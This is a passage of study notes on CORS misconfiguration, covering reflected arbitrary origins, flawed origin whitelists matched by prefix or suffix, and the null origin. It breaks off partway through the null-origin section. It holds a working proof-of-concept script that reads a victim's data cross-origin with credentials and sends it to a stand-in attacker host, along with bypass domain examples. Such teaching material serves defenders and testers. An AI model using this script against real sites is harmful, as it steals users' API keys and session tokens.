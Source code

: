 - These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

- Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain.
- If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

`var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };`

## Errors parsing Origin headers

- Some applications that support access from multiple origins do so by using a **whitelist of allowed origins**.
- When a CORS request is received, the supplied origin is compared to the whitelist.
- If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted.

- For example, the application receives a normal request like:

`GET /data HTTP/1.1 Host: normal-website.com ... Origin: https://innocent-website.com`

- The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

`HTTP/1.1 200 OK ... Access-Control-Allow-Origin: https://innocent-website.com`

- Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. **These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.**

- For example, suppose an application grants access to all domains ending in:

`normal-website.com`

- An attacker might be able to gain access by registering the domain:

`hackersnormal-website.com`

- Alternatively, suppose an application grants access to all domains beginning with

`normal-website.com`

- An attacker might be able to gain access using the domain:

`normal-website.com.evil-user.net`

### Whitelisted null origin value

- The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:
	
	- Cross-origin redirects.
	- Requests from serialized data.
	- Request using the `file:` protocol.
	- Sandboxed cross-origin requests.
